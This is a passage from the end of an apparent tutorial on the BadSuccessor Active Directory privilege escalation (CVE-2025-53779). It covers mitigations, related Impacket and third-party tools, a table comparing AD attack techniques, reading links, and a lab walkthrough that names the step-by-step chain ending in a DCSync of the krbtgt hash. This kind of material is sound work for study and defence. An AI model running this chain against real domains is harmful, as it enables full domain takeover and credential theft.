- **Account Operators group minimization**: built in Account Operators have the required permission by default. Removing users from this group (and equivalents) reduces attack surface.
- **Tier 0 hardening**: the Akamai research found 91% of environments had the exposure. Addressing this requires permissions audits across all OUs, not just the obvious ones.
- **Functional level assessment**: if the domain is not yet at Windows Server 2025 functional level, BadSuccessor is not exploitable. Delaying the functional level bump until patches are applied is a valid mitigation.
- **Patch promptly**: once CVE-2025-53779's patch is available and tested, apply it. Microsoft's fix addresses the trust boundary issue at the KDC.

### What BadSuccessor / this article's scope does NOT do

- Does NOT work against domains running any Windows Server version earlier than 2025 (dMSA doesn't exist).
- Does NOT work when the attacker has NO writable OU. A truly hardened environment where the compromised account has zero CreateChild rights is not exploitable. But Akamai's 91% finding says most environments are not that hardened.
- Does NOT require prior domain admin or any elevated privilege. Standard user with one delegated permission is sufficient.
- Does NOT require any software deployment. The attack is purely LDAP writes plus Kerberos.
- Does NOT generate significant default log evidence. Tuning is required for detection.


## Related tools and attack chains

`badsuccessor.py` (this article's conceptual unit) **continues AD Modification at 5 of 7 articles (71% complete)**. Two more articles close the category: `changepasswd.py` and one remaining stub.

### Related Impacket tools

- [`getST.py`](../02_kerberos_attacks/getST.md) provides the `-dmsa` flag that makes the ticket request step work. Without it, Impacket cannot issue KERB-DMSA-KEY-PACKAGE requests.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) is the typical followup for DCSync after the dMSA ticket is obtained.
- [`ticketer.py`](../02_kerberos_attacks/ticketer.md) forges Golden Tickets using the extracted krbtgt. Standard pattern for use after compromise.
- [`addcomputer.py`](addcomputer.md) is the closest analog among existing AD Modification tools: both create new AD objects to bootstrap attack chains. addcomputer creates a computer account (for RBCD); BadSuccessor creates a dMSA (for PAC inheritance).
- [`rbcd.py`](rbcd.md) is another technique that combines AD write with Kerberos abuse. Comparable in overall pattern (write a specific attribute, then request a ticket that depends on that attribute) but targets a different Kerberos primitive (S4U2Proxy via msDS-AllowedToActOnBehalfOfOtherIdentity instead of dMSA migration).
- [`dacledit.py`](dacledit.md) and [`owneredit.py`](owneredit.md) are the generic DACL/owner manipulation tools that might be used to grant CreateChild rights if the attacker needs to set them up before exploiting BadSuccessor. Usually not needed (the whole point is that 91% of environments have exploitable CreateChild already).

### External alternatives and related projects

- **bloodyAD** by p0dalirius at `https://github.com/CravateRouge/bloodyAD`. The most complete BadSuccessor implementation for Linux. `add badSuccessor` subcommand handles Step 1 of the attack end to end.
- **cybrly/badsuccessor** at `https://github.com/cybrly/badsuccessor`. Python Impacket-based tool with extensive options including session tracking and cleanup.
- **ibaiC/BadSuccessor** at `https://github.com/ibaiC/BadSuccessor`. C# PoC, Windows-side.
- **SharpSuccessor** by Logan Goins at `https://github.com/logangoins/SharpSuccessor`. .NET PoC, Windows-side. Explicitly weaponizes Yuval Gordon's research.
- **Pentest-Tools-Collection BadSuccessor.ps1** at `https://github.com/LuemmelSec/Pentest-Tools-Collection/tree/main/tools/ActiveDirectory`. PowerShell implementation.
- **powerview.py** by aniqfakhrul at `https://github.com/aniqfakhrul/powerview.py` (dev branch). Python LDAP tool with dMSA support.
- **Akamai's Get-BadSuccessorOUPermissions.ps1**. Enumeration tool; finds exploitable CreateChild rights.
- **JimSycurity/dMSAs** at `https://github.com/JimSycurity/dMSAs`. Defender-focused: includes scripts to set deny ACEs on OUs preventing dMSA creation.
- **Rubeus PR #194** by JoeDibley adds dMSA support on the Windows side (ticket request step only).

For a Linux attack host, **bloodyAD for Step 1 + Impacket `getST.py -dmsa` for Step 2 + Impacket secretsdump.py for Step 3** is the standard workflow.

### The BadSuccessor attack chain



The flowchart emphasizes that the critical step is D (the LDAP write with specific attribute values), which the KDC trusts without verifying legitimacy of the migration. Everything downstream (E through K) is mechanical execution of standard Kerberos abuse patterns using the ticket with escalated privilege.

### Comparative AD privilege escalation techniques

| Technique | AD write required | Required existing permission | Outcome | Patch status |
|:---|:---||:---|:---|
| **BadSuccessor (this article)** | Create dMSA + set PrecededByLink | CreateChild on any OU | Full domain compromise | CVE-2025-53779, patched |
| RBCD | Write msDS-AllowedToActOnBehalfOfOtherIdentity | Write to target computer's msDS-AllowedToAct | Admin access to specific computer | Not a CVE; hardening via Protected Users, Authentication Policies |
| Shadow Credentials | Write msDS-KeyCredentialLink | GenericWrite on target user | Kerberos PKINIT as target | Not a CVE; hardening via PKINIT Freshness |
| AddComputer + RBCD chain | Create computer account + configure RBCD | MachineAccountQuota > 0 | Admin access via S4U chain | Partial mitigation by setting MachineAccountQuota = 0 |
| Kerberoasting | None (query for SPN-having accounts) | Any domain user | Offline crack of service account password | Inherent to Kerberos; mitigations include long passwords, AES-only, Protected Users |

BadSuccessor is the newest and in many ways the most impactful: requires less privilege than most alternatives, produces domain compromise rather than compromise of a single host, and affected a staggering percentage of surveyed environments before patches were deployed.


## Further reading

- **Akamai Research: "Abusing dMSAs for AD Domination"** by Yuval Gordon at `https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory`. The original disclosure. Required reading for the technique.
- **Palo Alto Unit 42: "When Good Accounts Go Bad: Exploiting Delegated Managed Service Accounts in Active Directory"** at `https://unit42.paloaltonetworks.com/badsuccessor-attack-vector/`. Clear writeup with detection guidance.
- **Semperis Research: "Golden dMSA: What Is dMSA Authentication Bypass?"** at `https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/`. Related but distinct attack on dMSA infrastructure; useful context.
- **Microsoft CVE-2025-53779** official advisory. Search MSRC for the current patch guidance.
- **`[MS-ADTS]` Active Directory Technical Specification** sections covering dMSA object classes and attributes.
- **`[MS-KILE]` Kerberos Protocol Extensions** with the KERB-DMSA-KEY-PACKAGE padata definition.
- **`[MS-PAC]` Privilege Attribute Certificate Data Structure**. Explains PAC inheritance mechanics.
- **HackTheBox "Eighteen" writeup** at `https://0xdf.gitlab.io/2026/04/11/htb-eighteen.html`. End-to-end attack walkthrough including BadSuccessor as one component of a full Windows Server 2025 kill chain.
- **iPurpleTeam "BadSuccessor" walkthrough** at `https://ipurple.team/2025/07/28/badsuccessor/`. Purple team perspective.
- **SpecterOps research** at `https://specterops.io/blog/`. Multiple related Kerberos and AD posts providing broader context.
- **bloodyAD documentation** at `https://github.com/CravateRouge/bloodyAD`.
- **cybrly/badsuccessor README** at `https://github.com/cybrly/badsuccessor`.
- **Logan Goins' SharpSuccessor** at `https://github.com/logangoins/SharpSuccessor`.
- **Impacket `getST.py` source** showing the `-dmsa` flag implementation at `https://github.com/fortra/impacket/blob/master/examples/getST.py`.
- **Akamai's `Get-BadSuccessorOUPermissions.ps1`** enumeration tool (search Akamai's GitHub).
- **JimSycurity/dMSAs** defender scripts at `https://github.com/JimSycurity/dMSAs`.

If you want to internalize BadSuccessor as a technique, the productive exercise has four parts. First, stand up a Windows Server 2025 domain controller in an isolated lab and promote it to domain controller (requires raising the domain functional level). Second, create a standard domain user and grant them CreateChild permission on one OU explicitly, nothing else. Third, from a Linux attack host running Impacket and bloodyAD, execute the full attack chain end to end: enumerate writable OUs with bloodyAD, create the malicious dMSA with `add badSuccessor`, request the ticket with `getST.py -dmsa`, DCSync with secretsdump.py. Measure elapsed time from "standard user credential compromise" to "krbtgt hash in hand." Fourth, enable the recommended audit policies on the DC, repeat the attack, and observe what events appear with proper tuning. The contrast between the un-audited default (barely visible) and the properly tuned setup (clear 5137/5136/4768 chain) drives home why detection of this technique is entirely about audit policy configuration rather than inherent signal strength. This is the defining lesson for BadSuccessor specifically and for the broader class of AD write-based privilege escalation attacks: the protocols trust AD state without verifying the legitimacy of how that state was produced, and defensive visibility requires deliberate tuning rather than default logging.
